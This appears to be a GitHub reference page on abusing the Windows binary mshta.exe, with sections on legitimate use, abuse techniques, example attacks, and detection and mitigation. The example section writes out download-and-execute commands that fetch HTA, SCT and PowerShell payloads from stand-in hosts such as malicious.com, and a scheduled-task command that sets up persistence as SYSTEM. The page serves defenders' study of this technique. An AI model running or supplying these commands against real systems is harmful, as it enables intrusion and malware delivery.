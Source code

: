 # mshta.exe
## What is it?
*```mshta.exe``` (Microsoft HTML Application Host) is a legitimate Windows executable used to run HTML Applications (HTAs) on Windows systems.*
*HTA files are essentially HTML files with scripting capabilities (VBScript, JScript) that can be used to automate tasks, create graphical user interfaces, or interact with the system.*

## Legitimate Usage
- **Running HTA Files** → ```mshta.exe``` is used to run HTA files that contain HTML, CSS, and scripts, typically for application UIs or system automation tasks.
- **System Automation** → IT professionals and developers use ```mshta.exe``` to execute administrative tasks via HTAs, including network configurations or system checks.
- **Embedding Scripts** → HTAs allow embedding of VBScript or JScript, which is useful for creating internal tools that interact with the operating system.

## How to abuse it
- **Executing Malicious HTA Files** → Attackers can use ```mshta.exe``` to execute malicious HTA files that contain embedded scripts (VBScript, JScript) for payload delivery or system exploitation.
- **Bypassing Security Controls** → Since ```mshta.exe``` is a trusted Windows binary, security tools may overlook its misuse, allowing attackers to bypass application whitelisting.
- **Fileless Malware** → HTAs executed with ```mshta.exe``` can run directly in memory, leaving no trace on disk and evading traditional file-based detection methods.
- **Social Engineering** → Attackers can use social engineering to trick users into running malicious HTAs, often disguised as seemingly legitimate documents or web pages.

## Example attacks
### 1. Malicious HTA Execution
*Attackers can use ```mshta.exe``` to execute malicious code embedded within an HTA file, leading to system compromise or payload delivery.*

**Run Malicious HTA File**

```
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/file.sct")).Exec();close();

mshta.exe http://malicious[.]site/payload.hta

mshta.exe "javascript:a=GetObject('script:http://malicious[.]site/payload.sct')"
```

*calc.exe is spawned by mshta.exe:*

![image](https://github.com/user-attachments/assets/0165509e-73ad-4a73-a70f-f9be47a1eb37)

*sysmon logs for mshta establishing network connections:*

![image](https://github.com/user-attachments/assets/01232198-2016-4da8-a19c-902be70a96ee)

**Effect:**
- The HTA file is downloaded and executed, running embedded malicious scripts like PowerShell or JavaScript that could download and execute malware.

### 2. Fileless Malware Delivery
*Attackers can use ```mshta.exe``` to execute a fileless malware payload directly from memory, avoiding the creation of files on disk.*

**Run PowerShell Script via HTA**

```
mshta.exe "javascript:eval('new ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -command \"Invoke-WebRequest -Uri http://malicious.com/payload.ps1 -OutFile C:\Windows\Temp\payload.ps1; Start-Process C:\Windows\Temp\payload.ps1\")")')"
```

**Effect:**
- The PowerShell script is executed directly in memory, bypassing file-based defenses and avoiding detection by traditional endpoint security solutions.

### 3. Bypassing Application Whitelisting
*Since ```mshta.exe``` is a legitimate Windows utility, it can be used to execute malicious HTA files even when other applications are blocked by application whitelisting solutions.*

**Execute Malicious HTA from Command Line**

```
mshta.exe C:\path\to\malicious.hta
```

**Effect:**
- The malicious HTA file is executed without triggering security alarms since ```mshta.exe``` is a trusted, whitelisted binary.

### 4. Social Engineering to Run Malicious HTA
*Attackers may craft malicious HTA files and distribute them via phishing emails, prompting users to open them by disguising them as seemingly legitimate documents or files.*

**Malicious Email Attachment**
- An email containing an attachment like ```invoice.hta``` or ```resume.hta``` may encourage users to open the file, unwittingly executing the embedded malicious code with ```mshta.exe```.

**Effect:**
- Once opened, the HTA file executes malicious scripts that can result in data theft, system compromise, or further payload delivery.

### 5. Persistence via HTA Files
*Attackers can use HTA files to maintain persistence by creating scheduled tasks or registry entries that automatically execute the HTA file on system startup.*

**Create Scheduled Task to Run Malicious HTA File**

```
schtasks /create /tn "StartupTask" /tr "mshta.exe C:\path\to\malicious.hta" /sc onstart /ru SYSTEM
```

**Effect:**
- The malicious HTA file is executed every time the system starts, ensuring persistence on the compromised system.

# Detection & Mitigation
## Detection Methods
**Monitor for Unusual mshta.exe Execution**
- **Event ID 4688 (Process Creation)** → Detect the execution of ```mshta.exe``` from unusual locations or with suspicious arguments.
- **Analyze Network Traffic** → Monitor for network activity related to the downloading of HTA files or PowerShell scripts executed via ```mshta.exe```.

**Look for Suspicious HTA Files**
- **Audit HTA Files** → Look for HTA files in unusual locations (e.g., temporary folders or external drives) or with suspicious content such as embedded scripts that download or execute malicious payloads.

**Detect Suspicious PowerShell Execution**
- **Event ID 4104 (PowerShell Script Block Logging)** → Look for PowerShell scripts executed through ```mshta.exe```, especially those that download external payloads or execute commands remotely.

## Mitigation Strategies
- **Block mshta.exe** → Use application whitelisting (e.g., AppLocker) to restrict execution of ```mshta.exe``` to authorized applications or users.
- **Monitor File Access Logs** → Detect suspicious HTA files by auditing file access logs for unusual modifications or executions.
- **Limit User Permissions** → Restrict user access to the ability to execute HTA files, especially in non-administrative contexts.
- **Disable Scripting in HTA Files** → Configure system policies to prevent scripts from being executed within HTA files, reducing the attack surface.
